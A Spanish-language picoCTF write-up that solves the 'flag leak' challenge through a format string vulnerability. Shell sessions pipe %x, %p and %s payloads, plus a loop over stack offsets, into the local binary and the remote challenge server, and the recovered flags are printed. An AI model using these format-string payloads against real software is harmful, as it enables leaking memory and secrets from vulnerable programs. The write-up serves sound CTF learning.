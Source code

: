# flag leak

Story telling class 1/2 I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: nc saturn.picoctf.net 49918

## Solucion
- viendo el codigo detectamos que es una vulnerabilidad de "Format String"
- google: format strng vuln> https://owasp.org/www-community/attacks/Format_string_attack

### leakin way 1

```bash

──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%x_%x_%x_%x' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
ffff3480_f7d73a6c_8049346_255f7825

(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%p_%p_%p_%p' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
0xfff88fc0_0xf7d6fa6c_0x8049346_0x255f7025

```

### leaking way 2
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%10$p' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
0xf7f8d720
                                                                                    
┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%20$p' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
0x804c034

┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%10$s' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
UWVS�Vr
                                                                                    
┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ echo '%20$s' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
�N��
                                                                                    
┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ 

```

### ciclo para sacarlo
- local
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/flagleak]
└─$ for i in {0..999}; do echo "%$i\$s" | ./vuln | grep -Ei "bandera" ; done
{banderafalsa}

```

- remoto
```bash
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49484 | grep -Ei "pico|ctf" ; done
CTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
```




picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}


### Forma 4

```
➜  flagleak python3 -c 'print("%x"*60)' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story -
408003600804934678257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782530080483386f6369707b4654436162616c7265646e657365617d617473804000a40834b604080044840812ad040a728a05869c8000804c000804943080494100804c000408004488049418ffffffff4085996c40846000040800460
➜  flagleak python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 62121
Tell me a story and then I'll tell you one >> Here's a story -
ffc34010ffc340308049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825f2c41d00f2ac6ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63326539397d343238fbad2000516e1b000f2c7d990804c00080494100804c000ffc340f880494182ffc341a4ffc341b00ffc34110
```
- voy al cherry tree y le paso los hex, cambio el endianes y form ex sale la flag

```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
```